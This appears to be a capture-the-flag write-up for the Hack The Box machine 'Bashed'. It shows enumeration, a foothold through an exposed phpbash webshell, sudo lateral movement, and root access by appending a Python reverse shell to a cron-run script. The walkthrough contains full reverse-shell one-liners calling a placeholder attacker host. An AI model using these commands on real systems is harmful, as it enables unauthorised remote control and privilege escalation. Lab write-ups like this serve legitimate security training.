





Target:10.10.10.68

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.68       

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 23:47 PDT
Nmap scan report for 10.10.10.68
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ

uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.68



checking single



checking /dev



### Findings:Looking for attack vectors

Got shell in /dev


## Foothold:

checking /dev/phpbash



```
www-data@bashed:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

enumerating users
```
www-data@bashed:/var/www/html# cat /etc/passwd | grep sh

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

checking /home/arrexel



```
cat user.txt

<redacted>
```


## Lateral Movement:

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL


www-data@bashed:/home/arrexel# sudo -u scriptmanager bash

sudo: no tty present and no askpass program specified
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

establishing a proper shell
```
www-data@bashed:/home/arrexel# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@bashed:/home/arrexel$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

switching user
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash

scriptmanager@bashed:/home/arrexel$ id

uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Priv Escalations:


looking for suspicious file/s
```
scriptmanager@bashed:/home/arrexel$ find / -user scriptmanager 2> /dev/null

/scripts
/scripts/test.py
<snip>

scriptmanager@bashed:/home/arrexel$ cd /scripts

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:47 test.txt

scriptmanager@bashed:/scripts$ cat /scripts/test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:54 test.txt
```

The script test.py opens test.txt and write "testing 123!" and there seem to be a cronjob running


opening a nc listener on port 9002
```
$ nc -lnvp 9002
```

prepairing malicous python code
```
echo "import socket,subprocess,os;" >> test.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py
echo "s.connect(("<ip>",9002));" >> test.py
echo "os.dup2(s.fileno(),0);" >> test.py
echo "os.dup2(s.fileno(),1);" >> test.py
echo "os.dup2(s.fileno(),2);" >> test.py
echo "p=subprocess.call(["/bin/sh","-i"]);" >> test.py
```

```
# id

uid=0(root) gid=0(root) groups=0(root
```

```
# cat /root/root.txt

<redacted>
```
